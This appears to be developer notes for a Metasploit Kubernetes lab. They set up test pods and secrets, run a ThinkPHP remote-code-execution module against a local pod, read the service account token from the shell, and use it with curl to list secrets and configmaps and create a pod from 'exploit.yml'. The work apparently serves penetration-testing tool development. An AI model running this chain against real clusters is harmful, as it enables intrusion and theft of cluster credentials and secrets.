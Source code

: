 ## Pods

Create resources:

```
kubectl apply -f redis.yaml
kubectl apply -f thinkphp.yaml
```

Ensure pods are alive:

```
kubectl describe pods
```

Interacting with a pod:

```
kubectl exec -it redis -- /bin/sh
```

Getting a JWT token for the kube-system namespace:

```
kubectl -n kube-system describe secret default

# For use in CURLs
jwt_token=$(kubectl get secret -n kube-system $(kubectl -n kube-system get serviceaccount default -o jsonpath="{.secrets[0].name}") -o jsonpath="{.data.token}" | base64 --decode)

echo $jwt_token
```

## Secrets

Create resources:

```
kubectl apply -f secrets.yaml

kubectl create secret generic secret-empty

kubectl create secret generic secret-id-rsa-with-passphrase --from-file=ssh-privatekey=./secrets/id-rsa-with-passphrase --type=kubernetes.io/ssh-auth
kubectl create secret generic secret-id-rsa-without-passphrase --from-file=ssh-privatekey=./secrets/id-rsa-without-passphrase --type=kubernetes.io/ssh-auth

kubectl create secret generic secret-id-ed25519-with-passphrase --from-file=ssh-privatekey=./secrets/id-rsa-with-passphrase --type=kubernetes.io/ssh-auth
kubectl create secret generic secret-id-ed25519-without-passphrase --from-file=ssh-privatekey=./secrets/id-rsa-without-passphrase --type=kubernetes.io/ssh-auth

kubectl create secret docker-registry secret-local-registry --docker-username=username --docker-password=password --docker-email=admin@example.com

kubectl create secret tls secret-tls --key ./secrets/ca.key --cert ./secrets/ca.crt
```

To populate a lot of secrets, for testing purposes:

```
for i in {1..2000}; do kubectl create secret generic secret-basic-auth-$i --from-literal=username=username-${i} --from-literal=password=password-${i} --type="kubernetes.io/basic-auth"; done 
```

Checking secrets:
```
kubectl describe secrets
```

Checking config maps which may also have sensitive information:

```
kubectl describe configmap
```

Dumping JSON:
```
kubectl describe configmap -o json
```

Deleting
```
kubectl delete secrets --all
```

## Thinkphp session

Ensure the pod has been created and alive:
```
kubectl apply -f thinkphp.yaml
kubectl get deployments thinkphp
```

Access the pod from localhost, in lieu of setting up ingress properly:

```
kubectl port-forward thinkphp-67f7c88cc9-djg6q 8000:80
```

Run the Metasploit exploit module:

```
use exploit/unix/webapp/thinkphp_rce
run http://localhost:8000
```

Acquire a shell, and verify the service token is in the container:
```
cat /run/secrets/kubernetes.io/serviceaccount/token
```

## Testing volume exploit

```
kubectl delete pod generate-this-later-pod 2>/dev/null; kubectl apply -f ./exploit.yml
```

Directly interacting with it:
```
kubectl exec -it generate-this-later-pod -- /bin/sh
```

## API

The OpenAPI approach looks interesting, as we can generate clients in the same way as Swagger:

https://kubernetes.io/blog/2016/12/kubernetes-supports-openapi/

Generated:

https://v1-18.docs.kubernetes.io/docs/reference/generated/kubernetes-api/v1.18/

Client examples:
https://github.com/kubernetes-client

Note that the namespace would be in the URI `api/v1/namespaces/{namespace_name}/`
You can also retrieve the list of namespaces locally with:

```
kubectl get namespaces
kubectl get namespaces -o json
```

### JWT_TOKEN

Note that the curl examples assume the `jwt_token` is set.

If you're on your host with `kubectl` available:

```
jwt_token=$(kubectl get secret -n kube-system $(kubectl -n kube-system get serviceaccount default -o jsonpath="{.secrets[0].name}") -o jsonpath="{.data.token}" | base64 --decode)

echo $jwt_token
```

If you're in a container already:

```
jwt_token=$(cat /run/secrets/kubernetes.io/serviceaccount/token)
echo $jwt_token
```

### Get namespaces

```
curl --insecure --request GET \
--url 'https://kubernetes.docker.internal:6443/api/v1/namespaces' \
--header "Authorization: Bearer ${jwt_token}"
```

### Get PODs

```
curl --insecure --request GET \
  --url 'https://kubernetes.docker.internal:6443/api/v1/namespaces/default/pods' \
  --header "Authorization: Bearer ${jwt_token}"
```

### Get Secrets

```
curl --insecure --request GET \
  --url 'https://kubernetes.docker.internal:6443/api/v1/namespaces/default/secrets' \
  --header "Authorization: Bearer ${jwt_token}"
```

### Get Configmaps

```
curl --insecure --request GET \
  --url 'https://kubernetes.docker.internal:6443/api/v1/namespaces/default/configmaps' \
  --header "Authorization: Bearer ${jwt_token}"
```

### Create a pod

```
yq -o json e ./exploit.yml |
  curl --insecure -v --request POST \
    --url 'https://kubernetes.docker.internal:6443/api/v1/namespaces/default/pods' \
    --header "Authorization: Bearer ${jwt_token}" \
    --header 'Content-Type: application/json' \
    --data @-
```

### Management

Clean up:

```
kubectl delete deployments,pods,services --all
```

Delete all CrashLooping pods:

```
kubectl delete pod `kubectl get pods | awk '$3 == "CrashLoopBackOff" {print $1}'`
```

Running the Kubernetes [Dashboard UI](https://kubernetes.io/docs/tasks/access-application-cluster/web-ui-dashboard/):

```
kubectl apply -f https://raw.githubusercontent.com/kubernetes/dashboard/v2.3.1/aio/deploy/recommended.yaml

kubectl proxy
```

Now visit:

http://localhost:8001/api/v1/namespaces/kubernetes-dashboard/services/https:kubernetes-dashboard:/proxy/#/login

To login, use the `jwt_token` mentioned above

### Ideas

Spencer
- Confirm Comm semantics for send_cgi
- Decide on how we want to get additional sessions, i.e. docker pod cmd, exec + mettle, or exec + stream
- If we have a long lived attacker pod, we could continually exec new payloads against it. We'd need to keep track of it for reuse and cleanup.
        - Pod exec example: https://github.com/kubernetes-client/python/blob/master/examples/pod_exec.py#L84-L90
        - https://github.com/kubernetes-client/python-base/blob/master/stream/stream.py#L34

Alan
- Update sysinfo to detect if you're in docker/kubernetes
- Pull out the secrets information / env / ConfigMaps
- Get access to a real cluster

TODO: ENV will disappear from the container if you upgrade a shell to meterpreter
